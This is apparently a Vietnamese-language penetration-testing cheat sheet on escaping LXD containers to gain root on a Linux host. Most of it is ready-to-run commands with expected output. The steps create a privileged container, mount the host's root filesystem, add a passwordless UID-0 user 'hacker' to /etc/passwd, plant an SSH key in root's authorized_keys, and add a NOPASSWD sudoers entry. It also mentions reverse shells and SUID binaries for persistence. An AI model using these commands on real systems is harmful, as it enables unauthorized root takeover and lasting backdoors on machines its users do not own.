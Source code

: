 # Container Escapes

## Điểm chính khai thác

* Khai thác LXD để leo thang đặc quyền lên **root** bằng cách tạo container đặc quyền với `security.privileged=true`, cho phép truy cập toàn bộ hệ thống tệp máy chủ
* Người dùng thuộc nhóm `lxd` (kiểm tra bằng `id`) có thể tạo container đặc quyền, tương đương quyền root trên máy chủ do không bị giới hạn namespace
* Ánh xạ hệ thống tệp máy chủ vào container (dùng `lxc config device add`) cho phép sửa đổi tệp nhạy cảm như `/etc/passwd` hoặc `/root/.ssh/authorized_keys`
* Có thể tạo tệp nhị phân SUID hoặc shell ngược trong container để duy trì truy cập root trên máy chủ
* Phát hiện LXD bằng `lxc list`, `id`, hoặc **pspy** để xác định tiến trình liên quan, đặc biệt trong môi trường Linux có LXD cài đặt

## Các bước khai thác

### Kiểm tra lỗ hổng

#### Xác định mục tiêu tiềm năng

Kiểm tra xem người dùng có thuộc nhóm `lxd` để xác nhận khả năng truy cập LXD:

```
id
```

Output mong đợi: Nhóm `lxd`, ví dụ: `uid=1000(user) gid=1000(user) groups=1000(user),100(lxd)`

Xác minh LXD hoạt động và người dùng có quyền sử dụng:

```
lxc list
```

Output mong đợi: Danh sách container hoặc không có lỗi, ví dụ: `+---------+---------+`

#### Kiểm tra quyền truy cập hoặc cấu hình

Kiểm tra quyền ghi trên thư mục tạm để lưu trữ payload hoặc công cụ:

```
ls -ld /tmp
```

Output mong đợi: Quyền thư mục, ví dụ: `drwxrwxrwt 10 root root 4096`

#### Phân tích ngữ cảnh thực thi

Kiểm tra tiến trình LXD để xác nhận hoạt động:

```
pspy
```

Output mong đợi: Tiến trình LXD, ví dụ: `UID=0 PID=1234 | /usr/bin/lxd`

### Thực thi khai thác

#### Chuẩn bị payload hoặc mã khai thác

Tạo container đặc quyền với chế độ `security.privileged=true`:

```
lxc init privesc -c security.privileged=true
```

Output mong đợi: Container được tạo, ví dụ: `Creating privesc`

Gắn toàn bộ hệ thống tệp máy chủ vào container:

```
lxc config device add privesc root disk path=/ source=/ recursive=true
```

Output mong đợi: Thiết bị được thêm, ví dụ: `Device root added to privesc`

#### Áp dụng khai thác

Khởi động container đặc quyền:

```
lxc start privesc
```

Output mong đợi: Container khởi động, ví dụ: `Container privesc started`

Truy cập container để thao túng hệ thống tệp máy chủ:

```
lxc exec privesc /bin/bash
```

Output mong đợi: Shell trong container, ví dụ: `root@privesc:/#`

Thêm người dùng root vào `/etc/passwd` trong container:

```
echo "hacker::0:0::/root:/bin/bash" >> /etc/passwd
```

Ghi chú: Sửa đổi này ảnh hưởng trực tiếp `/etc/passwd` trên máy chủ do ánh xạ hệ thống tệp.

Thêm khóa SSH công khai vào `/root/.ssh/authorized_keys`:

```
mkdir -p /root/.ssh
echo "<your_ssh_public_key>" >> /root/.ssh/authorized_keys
```

Ghi chú: Thay `<your_ssh_public_key>` bằng khóa SSH công khai của bạn. Đảm bảo thư mục `/root/.ssh` có quyền phù hợp.

#### Kích hoạt khai thác

Chuyển sang người dùng root mới trên máy chủ:

```
su hacker
```

Output mong đợi: Shell root, ví dụ: `uid=0(root)`

Truy cập SSH với quyền root bằng khóa đã thêm:

```
ssh root@<target_ip> -i <private_key>
```

Ghi chú: Thay `<target_ip>` và `<private_key>` bằng IP máy chủ và khóa SSH riêng. Output mong đợi: Shell root.

### Kiểm tra kết quả

Xác nhận quyền root trên máy chủ:

```
whoami
```

Output mong đợi: `root`\
Xác nhận: Thử lệnh yêu cầu quyền cao, ví dụ: `echo 'hacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`.

## Ví dụ khai thác

### Khai thác LXD để Thêm Người dùng Root

**Kịch bản mẫu**: Người dùng thuộc nhóm `lxd` trên máy chủ Ubuntu 20.04 với LXD cài đặt. Tạo container đặc quyền để sửa `/etc/passwd` và thêm người dùng root.\
**Output**:

```
id
uid=1000(user) gid=1000(user) groups=1000(user),100(lxd)

lxc list
+---------+---------+

lxc init privesc -c security.privileged=true
lxc config device add privesc root disk path=/ source=/ recursive=true
lxc start privesc
lxc exec privesc /bin/bash

echo "hacker::0:0::/root:/bin/bash" >> /etc/passwd
exit

su hacker
whoami
root
```

### Khai thác LXD để Thêm Khóa SSH

**Kịch bản mẫu**: Người dùng thuộc nhóm `lxd` trên máy chủ Ubuntu 20.04. Tạo container đặc quyền để thêm khóa SSH vào `/root/.ssh/authorized_keys` và truy cập root qua SSH.\
**Output**:

```
id
uid=1000(user) gid=1000(user) groups=1000(user),100(lxd)

lxc list
+---------+---------+

lxc init privesc -c security.privileged=true
lxc config device add privesc root disk path=/ source=/ recursive=true
lxc start privesc
lxc exec privesc /bin/bash

mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E... attacker@machine" >> /root/.ssh/authorized_keys
exit

ssh root@192.168.1.101 -i id_rsa
whoami
root
```
